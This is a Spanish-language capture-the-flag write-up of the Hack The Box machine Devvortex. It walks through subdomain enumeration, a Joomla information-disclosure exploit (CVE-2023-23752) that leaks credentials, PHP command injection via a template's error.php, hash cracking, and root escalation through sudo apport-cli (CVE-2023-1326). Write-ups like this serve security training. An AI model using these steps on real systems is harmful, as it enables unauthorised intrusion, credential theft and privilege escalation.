

Devvortex es una máquina Linux de dificultad fácil que cuenta con un CMS Joomla que es vulnerable a la divulgación de información. Acceder al archivo de configuración del servicio revela credenciales de texto simple que conducen al acceso administrativo a la instancia de Joomla. Con acceso administrativo, la plantilla de Joomla se modifica para incluir código PHP malicioso y obtener un shell. Después de obtener un shell y enumerar el contenido de la base de datos, se obtienen credenciales en formato hash, que se descifran y conducen al acceso SSH a la máquina. La enumeración posterior a la explotación revela que el usuario tiene permiso para ejecutar apport-cli como root, lo que se aprovecha para obtener un shell root.

# Enumeración

Iniciamos enumerando los puertos abiertos de la maquina victima

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.242 -oG allportsScan

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

```

Encontramos que los puertos abiertos `22` y `80`. Luego enumeramos los servicios que se ejecutan en los  puertos.

```c
❯ nmap -p22,80 -sC -sV -vvv -Pn -n 10.10.11.242 -oN servicesScan

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Vemos que en el puerto `22` se encuentra un servicio `ssh` y en el puerto `80` http
## Puerto 80

Revisando el servicio web encontramos el siguiente sitio web.


Enumeré cada uno de los directorios y pestañas, pero no logre encontrar nada interesante. Luego procedí a enumerar subdominios

```c
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.devvortex.htb'  -fs 154 -u http://devvortex.htb

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 243ms]
:: Progress: [4989/4989] :: Job [1/1] :: 208 req/sec :: Duration: [0:00:24] :: Errors: 0 ::

```

Encontramos un subdominio que es `dev` y la añadimos a nuestro `/etc/hosts`

## Subdominio  - dev.devvortex


Teniendo el subdominio iniciamos a enumerar los directorios

```c
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 5081 -u http://dev.devvortex.htb/FUZZ
```


Los directorios que encontramos son muchos y revisando nos lleva a un panel de inicio de sesión de `joomla`


Enumerando la versión de `joomla` en la siguiente ruta podremos ver la versión

```c
http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
```


Observamos que es la versión `4.2.6` 
# Explotación

Teniendo la versión procedemos a buscar alguna vulnerabilidad y nos encontramos con una.


El POC que use es:

- [CVE - 2023 - 23752](https://github.com/ThatNotEasy/CVE-2023-23752)

Para entender mejor dicha vulnerabilidad te recomiendo revisar el POC y entender de donde logra obtener dichas credenciales.

Ejecutando el exploit podemos obtener unas credenciales:


```c
[+] Domain            : dev.devvortex.htb
[+] Database Type     : mysqli
[+] Database Prefix   : sd4fg_
[+] Database          : joomla
[+] Hostname          : localhost
[+] Username          : lewis
[+] Password          : P4ntherg0t1n5r3c0n##

```

Haciendo uso de estas credenciales logramos iniciar sesion en el panel de joomla


Para obtener una revershell un cms como Joomla podemos ir a `system` > `site templates`


Luego hacemos click en `Cassiopela Details and Files`


Ahora editamos el archivo `error.php`


Agregamos `system('ls -la')` y guardamos. Luego vamos a generar un error en el sitio web intencionalmente y se observa que podemos ejecutar comandos.


Ahora vamos a obtener una shell haciendo uso una revershell. 


Podemos ocasionar un error en el siguiente enlace [http://dev.devvortex.htb/dasdad](http://dev.devvortex.htb/dasdad). Luego de ocasionar el error obtendremos una shell
# Escalada de privilegios

## Usuario : www-data


Estuve enumerando el sistema como el usuario `www-data` pero no encontré nada interesante, por lo que hice uso de las credenciales de la base de datos que anteriormente encontramos

```c
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
Enter password: 

```

Las credenciales me permitieron ingresar a la base de datos


Encontré la base de datos `joomla` con las siguientes tablas:


Enumerando cada una de las tablas, la que contiene credenciales es la tabla `sd4fg_users`


Las credenciales que encontramos en la base de datos están encriptadas. Haciendo uso de la herramienta de `jhon the Ripper` podemos obtener la contraseña en texto plano.

```c
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_logan
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:07 DONE (2024-07-20 01:08) 0.1288g/s 180.9p/s 180.9c/s 180.9C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

La contraseña en texto plano seria:

```c
logan : tequieromucho
```

## Usuario : logan

Haciendo uso de las credenciales podemos iniciar sesión en el servicio `ssh`

```c
❯ ssh logan@10.10.11.242
```


Enumerando los privilegios que tiene dicho usuario observamos que el usuario actual puede ejecutar `apport-cli` de manera privilegiada



Investigando un poco por internet  me encontré con el siguiente POC:

- [CVE-2023-1326-poc](https://0xd1eg0.medium.com/cve-2023-1326-poc-c8f2a59d0e00)

En donde la versión vulnerable es `2.20.11` y vemos que es nuestro caso


En el POC explican que debemos de ejecutar los siguiente:

```c
sudo /usr/bin/apport-cli --file-bug
```

Seleccionamos la opción `1` y luego la `2`


Luego elegimos la opción de `View Report ` presionado la `V`


Luego obtendremos o veremos el reporte y para obtener una shell debemos de ingresar `!/bin/bash` y enter


Luego de esto deberíamos obtener una shell como el usuario root.
## Usuario : root


